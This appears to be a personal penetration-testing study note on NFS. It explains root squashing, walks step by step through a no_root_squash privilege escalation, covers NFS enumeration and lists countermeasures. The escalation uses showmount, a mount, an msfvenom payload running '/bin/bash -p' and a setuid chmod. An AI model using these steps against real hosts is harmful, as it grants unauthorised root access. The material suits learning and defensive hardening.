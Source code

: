 
2024-06-16 13:06

Source: #privesc 

Tags: [[linux]]

##### Root Squashing

- Root Squashing is how NFS prevents an obvious privilege escalation. 
- If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group. 
- While this behavior is default, it can be disabled
##### no_root_squash

- no_root_squash is an NFS configuration option which turns root squashing off.
- When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

##### Example : 

**Adversary machine**

- view contents of `/etc/exports`
- find for shares that are configured with the no_root_squash option (in the example we have /tmp) meaning we can write files to it as the root user over NFS

**Local Machine**

check if tmp share is available to mount 
```
$ showmount -e <targetip>
Export list for <targetip>
/tmp *
```
Create a directory that will be used as a mount point for the NFS share
```
mkdir /tmp/nfs

then mount the nfs share 
mount -o rw,vers=2 <targetip>:/tmp /tmp/nfs
```
Generate a [[msfvenom]] executable which runs bash with -p option and save this to the nfs share 
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Note that i am doing this as root user so the file should also be owned by root on the nfs share 
```
make it executable - 
chmod +xs /tmp/nfs/shell.elf
```
##### Adversary machine

check `/tmp` directory for shell.elf and execute it
### Enumeration 

NFS is a type of file system that enables users to access, view, store, and update files over a remote server. These remote data can be accessed by the client in the same way it is accessed on the local system. Depending on the privileges assigned to the clients, they can either only read or both read and write the data. 

An NFS system is generally implemented on a computer network in which the centralization of data is required for critical resources. The remote procedure call (RPC) is used to route and process the request between clients and servers. 

To accomplish the task of sharing files and directories over the network, the "exporting" process is used. However, the client first attempts to make the file available for sharing by using the "mounting" process. 
- The `/etc/exports` location on the NFS server contains a list of clients allowed to share files on the server. In this approach, to access the server, the only credential used is the client's IP address.
- NFS versions before version 4 run on the same security specification. 

Enumerating NFS services enables attackers to identify the exported directories, list of clients connected to the NFS server along with their IP addresses, and the shared data associated with the IP addresses. After gathering this information, the attackers can spoof their IP addresses to gain full access to the shared files on the server.

As shown in the screenshot, an attacker runs the following `rpcinfo` command to scan the target IP address for an open NFS port (port 2049) and the NFS services running on it: 
`rpcinfo -p <Target IP Address>`
#### Enum Tools

[GitHub - hegusung/RPCScan: Tool to communicate with RPC services and check misconfigurations on NFS shares](https://github.com/hegusung/RPCScan)
[GitHub - p4pentest/SuperEnum: This script does the basic enumeration of any open port along with screenshots.](https://github.com/p4pentest/SuperEnum)
#### Enumeration Countermeasure

| Implement proper permissions (read/write must be restricted to specific users) on exported file systems                              |
| ------------------------------------------------------------------------------------------------------------------------------------ |
| Implement firewall rules to block NFS port 2049                                                                                      |
| Ensure proper configuration of files, such as /etc/smb.conf, /etc/exports and etc/hosts.allow, to protect the data stored in servers |
| Log the requests to access the system files on the NFS server                                                                        |

### References
